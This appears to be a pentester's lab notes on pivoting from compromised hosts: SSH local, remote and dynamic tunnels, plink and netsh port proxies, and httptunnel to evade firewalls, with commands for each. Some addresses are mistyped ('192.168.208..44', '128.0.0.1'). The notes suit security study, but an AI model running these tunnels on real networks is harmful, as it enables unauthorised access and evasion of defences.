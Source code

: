 # Port Redirection and Tunneling

## Port Forwarding

Test Internet connectivity:
```
ping google.com -c 1
nc -nvv 216.58.207.142 80
GET / HTTP/1.0
```

We can use rinetd to redirect traffic from a host with no Internet connectivity, via one that does.

```
sudo apt install rinetd
cat /etc/rinetd.conf
# Edit file to include the required details. connectaddress is the destination.
0.0.0.0   80    216.58.207.142    80
# All traffic received on all interfaces for port 80 will be redirected to 216.58.207.142.80.
sudo service rinetd restart
# Verify
ss -antp | grep "80"
# From target
nc -nvv <Kali Host>
GET / HTTP/1.0
```

## SSH Tunneling

Local port forwarding using SSH:

```bash
Bind our local address to the port we wish to forward over SSH tunnel with `0:0:0:0:445` and the server to forward too `191.168.1.110:445` and do this through the Linux target `student@192.168.208..44`
ssh -N -L [bind_address:]port:host:hostport [username@address]

# Edit /etc/samba/smb.conf
client min protocol SMB2
sudo ssh -N -L 0.0.0.0:445:172.16.208.5:445 student@192.168.208.44

# Only listening on a local address?
sudo ssh -N -L 80:localhost:80 student@192.168.208.52 -p 2222
```

Remote port forwarding using SSH:  
ssh to kali machine `kali@192.168.119.208` with `-N` for no commands, and `-R` for remote forward. Open a listener on kali machine `2221` and forward connections to the internal Linux TCP port `3306` with `128.0.0.1:3306`.

```bash
ssh -N -R [bind_address:]port:host:hostport [username@address]

ssh -N -R 192.168.119.208:2221:127.0.0.1:3306 kali@192.179.119.208

# Reverse bind from local to remote:
sh -N -R 192.168.208.52:5555:127.0.0.1:2221 student@192.168.208.52 -p 2222
```

In this example on a compromised host we bind two ports from a machine we want to pivot too (ie. not the compromised host we are running this on) back to our local Kali. We use the UserKnownHostsFile=/dev/null not to save the host key and ignore strict host key checking so we don't get prompted. We also need to generate a key so that we do not enter our password on a host we have compromised.

```
cd /tmp
mkdir keys
cd keys
ssh-keygen
/tmp/keys/id_rsa
cat /tmp/keys/id_rsa.pub
```

Back on Kali `~/.ssh/authorized_keys`:
```bash
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5pTHcaJRATMWKhwijWAaZHt9xTFghJf0BbHgDaMrXoZL0sesrZjIz01mTtNnyQ189K4MXoWFfNXPnIK4giQifJhlslJQtrgbT9QbKlqr32j617an0IJzNefISN9JA7XxSFBysQ2LcsZ5XKEGJ3GsNBWSDIbWqojtbw+C2O9XzDyUg7DnQYgiHnNwR1fAI1ZW/cHQwcR5LU0Rrel9lqSmzqaNCcNat7sbmO9dHOXJSlXUWgJw+UazyCWuDUG9tNBkFABhCCrV6GrlAOmoHwTzj3KjrfO5IFIu+sPcWxqyczR5FOnqnIh7A78aJmv8UFHfHABpBZElPU9TCrCQ1U2wl www-data@ajla
```

Back on the pivot host:
```bash
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.140
```

Verify success by checking the ports with netstat on Kali:
```bash
sudo netstat -tulpn  
```

If the shell dies, it doesn't matter as we have backgrounded the connection for SSH and it will continue.

Dynamic Port Forwarding using SSH:

```bash
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
# Use -D for dynamic SOCKS4 application-level port forwarding.

# Tunnel all incoming traffic through the SSH tunnel:
sudo ssh -N -D 127.0.0.1:8080 student@192.168.208.44

# Direct tooling through the tunnel:
vim /etc/proxychains.conf
# Add:
socks4  127.0.0.1 8080

# Run tools through proxychains by prepending each command with proxychains:
sudo proxychains nmap --top-ports=20 -sT -Pn 172.16.208.5
```

By default, ProxyChains will attempt to read its configuration file first from the current directory, then from the user's $(HOME)/.proxychains directory, and finally from /etc/proxychains.conf. This allows us to run tools through multiple dynamic tunnels, depending on our needs.

## Windows

plink.exe is a Windows command line SSH client.

We can use remote port forwarding `-R` and specify the user `-l` and password `-pw` to connect via `-ssh`. We can bind the remote Kali `192.168.119.234:1234` to the MySQL port of the Windows target `127.0.0.1:3306`. 

If we aren't operating interactively (ie. over a reverse shell), we can pipe answers to the prompt with cmd.exe /c echo y:
`cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4`

We can then access the MySQL port from our local Kali instance over the bound port:
`sudo nmap -sS -sV 127.0.0.1 -p 1234`

We can also use netsh if we have system privileges and want to pivot to another network. We can forward traffic from the compromised Windows machine onto the target machine.

Use the netsh `interface` context to add an IPv4-to-IPv4 `v4tov4` proxy `portproxy` listening on 192.168.148.10 `listenaddress=192.168.148.10`, port 4455 `listenport=4455` that will forward to the Windows 2016 Server `connectaddress=172.16.148.5` on port 445 `connectport=445`:  

`netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.148.10 connectport=445 connectaddress=172.16.148.5`  

We may need to add a firewall rule:  
`netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.148.10 localport=4455 action=allow`  

On Kali we may need to amend the SMB min protocol as before:
```bash
sudo vim /etc/samba/smb.conf

min protocol = SMB2

sudo systemctl restart smbd

smbclient -L 192.168.148.10 --port=4455 --user=Administrator
```

Errors may be seen due to the port forwarding, despite issues with listing we can still mount shares:

```bash
sudo mkdir /mnt/win10_share
sudo mount -t cifs -o port=4455 //192.168.148.10/Data -o username=Administrator,password=XXX /mnt/win10_share
ls -l /mnt/win10_share/
cat /mnt/win10_share/data.txt
```

## HTTP Tunneling

These techniques are used to avoid deep packet inspection which may prevent the previous SSH based techniques from working.

```bash
# Kali
sudo apt install httptunnel

# From our obtained reverse shell. Creat a local SSH tunnel to bind the local port 8888 to the RDP port on the Windows server to pivot too.
ssh -L 0.0.0.0:8888:172.16.148.5:3389 student@127.0.0.1
ss -antp | grep "8888"

# Set up HTTP Tunnel server to listen on port 1234 and decapsulate traffic and redirect it to port 8888 (which then uses the local SSH port forwarding to send to server).
hts --forward-port localhost:8888 1234
ps aux | grep hts
ss -antp | grep "1234"

# Create client on Kali machine to send traffic received on 8080 to the Linux pivot host, this is where we dodge the firewall.
htc --forward-port 8080 192.168.148.44:1234
ps aux | grep htc
ss -antp | grep "8080"

# Now we can RDP to desktop by calling our Kali host on port 8080.
rdesktop 127.0.0.1:8080
```

